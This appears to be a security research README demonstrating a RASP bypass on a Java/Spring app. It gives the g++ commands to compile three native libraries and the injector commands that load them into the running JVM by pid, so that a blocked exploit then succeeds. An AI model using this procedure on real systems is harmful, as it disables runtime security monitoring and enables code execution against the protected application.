



RASP Bypass using Process Injection

- Use your own RASP agent or use [rasp-agent](..%2Frasp-agent)
- if you use [rasp-agent](..%2Frasp-agent), add:
  - env RASP_AGENT_PATH=path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [Main.kt](src%2Fmain%2Fjava%2Fcom%2Fapplicationsec%2FMain.kt) with the VM option:
  - -javaagent:path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [exploit.sh](exploit.sh) and see that we are blocked.
  

Inject it in the target process
- set JAVA_HOME property (e.g. export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk-17.jdk/Contents/Home)
- Compile libraries
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineTransformerManager.cpp -o redefineTransformerManager.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineProcessBuilder.cpp -o redefineProcessBuilder.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineSpelExpressionParser.cpp -o redefineSpelExpressionParser.dylib -L"$JAVA_HOME/lib/server" -ljvm
- now inject the library (e.g. using ptrace for macos/linux: https://github.com/kubo/injector)
- cd injector/cmd
- ./injector -java -p $pid path/to/redefineTransformerManager.dylib
- ./injector -java -p $pid path/to/redefineSpelExpressionParser.dylib
- ./injector -java -p $pid path/to/redefineProcessBuilder.dylib
- Look at the spring app logs, and confirm that the injection succeeded
  
- now rerun the exploit[exploit.sh](exploit.sh), you should have bypassed rasp
  
